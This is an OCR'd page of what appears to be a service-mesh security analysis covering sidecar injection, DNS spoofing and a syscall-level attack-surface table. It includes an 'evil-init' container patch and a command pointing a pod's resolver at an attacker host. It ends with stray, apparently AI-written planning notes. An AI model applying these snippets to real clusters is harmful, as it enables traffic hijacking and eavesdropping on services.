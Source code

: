 
### 4.6 Sidecar Compromise & Traffic Hijacking

#### 4.6.1 Malicious Sidecar Injection

```yaml
# Inject a fake sidecar by patching the Deployment
spec:
  template:
    spec:
      initContainers:
      - name: evil-init
        image: alpine
        command: ["sh","-c","iptables -t nat -A PREROUTING … malicious redirect"]
```

* **Syscalls**:

  * `clone()` new netns
  * `socket()` + `setsockopt()` for netfilter
  * `execve("/bin/sh",…)` via `evil-init`

#### 4.6.2 DNS Spoofing within Mesh

* Patch `/etc/resolv.conf` via a compromised sidecar:

  ```bash
  echo "nameserver attacker.local" > /etc/resolv.conf
  ```
* **Kernel impact**:

  * `open()`, `write()`, `close()` on chrooted file
  * Pod now resolves internal services to attacker IP

---

### 4.7 Attack Surface Summary

| Component                | Linux Primitive / Syscall                       | Vulnerability                        |
| ------------------------ | ----------------------------------------------- | ------------------------------------ |
| initContainer (linkerd)  | `clone(CLONE_NEWNET)`, `iptables` via netfilter | Transparent proxy – can be hijacked  |
| Sidecar proxy            | `socket()`, `connect()`, `SSL_*` syscalls       | Over-privileged TLS identity         |
| ServiceAccount token     | `open()`, `read()`                              | Mounted in filesystem, easy to abuse |
| Mesh CLI (`linkerd tap`) | `ptrace`, BPF syscalls                          | Eavesdropping on pod traffic         |

---

**Writing section 5**

The instructions seem to require a thorough Section 5 based on the latest prompt. Since it’s not about dynamic news, I don’t need to worry about browsing for citations. I can refer to known research like Goodfellow 2014 if needed, but citations aren’t essential here. I’ll include elements like Linux sysadmin correlation, syscalls, ML fundamentals, toolchain, and evaluative aspects. I’ll ensure it's detailed, but no specific citation requirement is in place right now.
